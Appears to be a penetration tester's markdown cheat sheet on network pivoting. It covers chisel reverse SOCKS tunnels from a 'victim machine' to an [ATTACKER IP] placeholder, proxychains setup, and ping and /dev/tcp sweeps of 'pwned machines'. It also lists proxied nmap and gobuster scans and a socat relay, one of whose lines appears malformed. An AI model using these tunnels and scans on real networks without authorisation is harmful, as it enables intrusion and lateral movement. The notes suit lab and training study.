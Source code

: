 # Pivoting





## Ligolo
- <https://github.com/nicocha30/ligolo-ng>
- <https://www.youtube.com/watch?v=qou7shRlX_s>





## SSHuttle
- <https://www.youtube.com/watch?v=1BLAeXOQOl4>







## chisel
- <https://github.com/jpillora/chisel>

Note: depending on the environment, the latest version may not work.

```
# listen from attacker machine
chisel server --reverse -p [PORT NUMBER]

# from victim machine 1
chisel client [ATTACKER IP]:[PORT NUMBER] R:socks


```



### Proxychains
- dynamic_chain: Uses proxies in the order they appear in the list. All proxies in the chain must be available.
- random_chain: Chooses a random proxy from the list for each connection.
- static_chain: Uses proxies in the exact order they are listed.


unset `strict_chain`` and set `dynamic_chain` in `/etc/proxychains.conf`
at the end of proxychains.conf add `socks5 127.0.0.1 [tunnel PORT]`
Note: Tunnel port is 1080 by default
also in the firefox:
- manual proxy configuration > Sock Host: 127.0.0.1 Port: [tunnel PORT]
or
- set foxy proxy
or
- launch it using `proxychains -q firefox`	









## Enumeration

### see active hosts pwned machines
```bash

hostname -I


# script 1
#!/bin/bash
for i in {1..255}; do
        timeout 1 bash -c "ping -c 1 20.20.20.$i" >/dev/null
        if [ $? -eq 0 ]; then
                echo "El host 20.20.20.$i está activo"
        fi
done


# script 2 (in case ping is not installed)
#!/bin/bash

for host in $(seq 1 254); do
	timeout 1 bash -c "echo '' > /dev/tcp/30.30.30.$host/80 &> /dev/null" &&
	echo "30.30.30.$host";
done; wait
	
```

### nmap
```

proxychains nmap -sn -n x.x.x.0/24 
sudo proxychains -q nmap -p [PORT NUMBER] -sCVT -Pn -n [IP]	
proxychains nmap -sCVT 20.20.20.0/24 2>/dev/null
```



### gobuster
```
gobuster dir -u http://20.20.20.3 \
	-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
	-x php,doc,html,txt \
	--proxy socks5://127.0.0.1:1080
```










## socat
On Windows use `netsh`



# Scenario: this machine(n2) is the pivot and want to redirect the chisel client to the attacker chisel server listening on port 1234 on machine(n1)
```
# on machine n3
chisel client [IP machine n2]:1111 R:1111:socks
# on machine n2
socat TCP-LISTEN:1111,fork TCP:1111:1234
# on machine n1
echo -e "socks5 127.0.0.1 1111" | sudo tee -a /etc/proxychains4.conf
```
